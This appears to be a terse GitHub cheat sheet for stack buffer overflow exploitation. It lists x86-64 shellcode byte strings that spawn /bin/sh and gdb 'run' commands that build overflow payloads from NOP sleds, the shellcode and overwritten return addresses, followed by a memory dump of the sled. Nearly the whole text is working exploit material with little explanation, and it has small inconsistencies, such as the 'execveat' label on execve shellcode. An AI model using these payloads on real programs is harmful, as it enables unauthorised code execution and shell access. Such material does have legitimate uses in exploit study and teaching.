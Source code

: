 ### ASM code,zsh is needed:

* Hello World

```py
"\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x48\xbe\x00\x00\x00\x00\x00\x00\x00\x00\xba\x0e\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbf\x00\x00\x00\x00\x0f\x05"
```

* `execveat("/bin//sh")` - 29 bytes

```py
"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
```

* `execveat("/bin//sh")` - 27 bytes

```py
"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
```


### Adding ASM code to string:

```bash
run $(python -c 'print "\x41" * 526 + "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"')
```

### Adding NOP sled" NOP == '\x90'

```bash
run $(python -c 'print "\x90" * 526 + "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"')
run $(python -c 'print "\x90" * 526 + "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05" + "\x51\x51\x51\x51\x51\x51\x51\*" * 20')
# 526 bytes - (29 bytes ASM code + 60 bytes return address) = 437 (434 with alignment): 0x00 00 00 51 51 51 51 51 in ?? ()
run $(python -c 'print "\x90" * 437 + "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05" + "\x51\x51\x51\x51\x51\x51" * 10')
# 526 bytes - (29 bytes ASM code + 80 bytes return address) = 417 (424 with alignment): 0x00 00 00 51 51 51 51 51 in ?? ()
run $(python -c 'print "\x90" * 417 + "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"+ "\x51\x51\x51\x51\x51\x51\x51\x51" * 10')
```

### Examine memory address

```bash
x/200x ($esp - 550) # x86
x/200x ($rsp - 550) # amd64
```

```bash
0x7ffffffee85a: 0x00000800      0xeb580000      0x7ffffffe      0xf2680000
0x7ffffffee86a: 0x0002fffe      0x90900000      0x90909090      0x90909090
0x7ffffffee87a: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee88a: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee89a: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee8aa: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee8ba: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee8ca: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee8da: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee8ea: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee8fa: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee90a: 0x90909090      0x90909090      0x90909090      0x90909090 # <<<<<<<<<<<<<<<<<<<<<<
0x7ffffffee91a: 0x90909090      0x90909090      0x90909090      0x90909090
0x7ffffffee92a: 0x90909090      0x90909090      0x90909090      0x90909090
```